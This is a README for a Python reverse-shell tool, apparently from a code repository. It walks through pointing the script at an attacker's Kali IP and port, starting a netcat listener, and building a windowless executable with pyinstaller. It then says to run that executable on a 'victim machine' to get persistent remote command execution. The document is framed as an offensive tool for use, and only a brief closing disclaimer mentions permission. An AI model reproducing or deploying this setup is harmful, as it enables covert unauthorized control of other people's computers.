 # Python Reverse Shell

## Overview
This Python script creates a reverse shell connection to a remote attacker-controlled machine. It continuously attempts to establish a connection with the attacker's IP and allows remote command execution.

## Features
- **Persistent Connection:** The script will keep trying to connect to the attacker's machine if the connection fails.
- **Remote Command Execution:** Once the connection is established, the attacker can execute commands remotely.
- **Directory Navigation:** Supports basic directory navigation (`cd`, `ls`, `pwd`).
- **Error Handling:** The script includes error handling to manage connection issues and command execution errors.

## Usage
### 1. Modify the Script
Edit the script and replace `IP` and `PORT` with the attacker's machine details:
```python
IP = "192.x.x.x"  # Change this to your Kali IP
PORT = 443          # Ensure this port is open on Kali
```

### 2. Run the Attacker's Listener on Kali:
Ensure you're listening on the specified port (443 in this case) on your Linux machine. You can use Netcat or any other listening tool:
```sh
nc -lvnp 443
```

### 3. Generate Executable
Install `pyinstaller` library:
```sh
pip install pyinstaller
```
Generate an executable using `pyinstaller`:
```sh
pyinstaller -F --clean -w shell.py
```
This will create an executable file without a console window.

### 4. Execute the Shell:
Run the generated executable on the victim machine. The shell will attempt to connect to your Kali machine on the specified IP and port.

### 5. Command Execution:
Once connected, you will see something like that:

```
listening on [any] 443 ...
connect to [192.x.x.x] from (UNKNOWN) [192.x.x.x] 30908
Welcome to your victim's machine!
─$ 
```

To exit the shell, simply type `/exit`.

### 3. Test Connection Locally
Before deploying, you can test if the connection is successful using `connection_check.py`:
```python
python .\connection_check.py
```
Run this script on your target machine to verify that the connection can be established.

## ⚠ Disclaimer
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences. **The risk is yours**.

